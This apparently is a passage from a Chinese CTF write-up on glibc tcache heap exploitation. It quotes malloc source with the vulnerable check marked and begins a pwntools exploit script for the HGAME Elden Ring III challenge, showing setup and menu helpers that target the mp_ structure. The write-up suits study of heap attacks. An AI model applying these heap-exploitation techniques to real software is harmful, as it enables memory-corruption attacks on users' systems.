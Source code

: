 - tcache取堆块

```C
# define csize2tidx(x) (((x) - MINSIZE + MALLOC_ALIGNMENT - 1) / MALLOC_ALIGNMENT)
# define MAYBE_INIT_TCACHE() \
  if (__glibc_unlikely (tcache == NULL)) \
    tcache_init();

static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache-&gt;entries[tc_idx];
  tcache-&gt;entries[tc_idx] = e-&gt;next;
  --(tcache-&gt;counts[tc_idx]);
  e-&gt;key = NULL;
  return (void *) e;
}

void *
__libc_malloc (size_t bytes)
{
  ...
#if USE_TCACHE
  size_t tbytes;
  size_t tc_idx = csize2tidx (tbytes);
  MAYBE_INIT_TCACHE ();
  DIAG_PUSH_NEEDS_COMMENT;
  // 漏洞所在
  if (tc_idx &lt; mp_.tcache_bins&amp;&amp; tcache&amp;&amp; tcache-&gt;counts[tc_idx] &gt; 0)
    {
      return tcache_get (tc_idx);
    }
  DIAG_POP_NEEDS_COMMENT;
#endif
  ...//省略的逻辑是通过_int_malloc进行申请的部分
}
libc_hidden_def (__libc_malloc)
```

例题 HGAME WEEK3 Elden Ring Ⅲ
---------------------------

题目要求malloc的size &gt; 0x4FF &amp;&amp; size &lt;=0x900,显然无法直接利用tcache，由此来打mp\_结构体

```python
from pwn import *
from pwnlib.util.packing import p64
from pwnlib.util.packing import u64
context(os='linux', arch='amd64', log_level='debug')
file = "/home/zp9080/PWN/vuln"
libc=ELF("/home/zp9080/PWN/libc.so.6")
elf=ELF(file)
# p=process(file)
p=gdb.debug(file,'b *$rebase(0x16AF)')

def add(idx,size):
    p.sendlineafter(b"5. Exit",str(1))
    p.sendlineafter(b"Index: ",str(idx))
    p.sendlineafter(b"Size: ",str(size))
def delete(idx):
    p.sendlineafter(b"5. Exit",str(2))
    p.sendlineafter(b"Index: ",str(idx))
def edit(idx,content):
    p.sendlineafter(b"5. Exit",str(3))
    p.sendlineafter(b"Index: ",str(idx))
    p.sendafter(b"Content: ",content)
```
